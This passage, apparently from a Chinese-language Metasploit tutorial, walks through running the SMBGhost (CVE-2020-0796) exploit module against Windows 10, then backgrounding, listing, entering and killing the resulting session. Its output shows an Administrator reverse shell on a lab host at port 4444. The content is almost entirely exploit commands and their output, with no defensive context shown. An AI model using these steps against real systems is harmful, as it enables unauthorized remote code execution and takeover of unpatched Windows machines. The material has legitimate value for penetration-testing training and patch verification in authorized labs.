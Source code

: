 运行

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > run
```

> 或者使用 `run -j` 连接后将会话保存至后台

将会话保存至后台

```cmd
C:\Windows\System32> background
```

查看会话

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > sessions
```

```
Active sessions
===============

  Id  Name  Type                     Information                      Connection
  --  ----  ----                     -----------                      ----------
  1         shell x86/windows  A-WIN10-1903\Administrator @ A-  192.168.1.30:4444 -> 192.168.1.5
                                     WIN10-1903                       3:53929 (192.168.1.53)
```

进入会话

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > sessions -i 1
```

关闭会话

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > sessions -k 1
```

---

参考链接

- [Metasploit-Framework](https://www.kali.org/tools/metasploit-framework/)
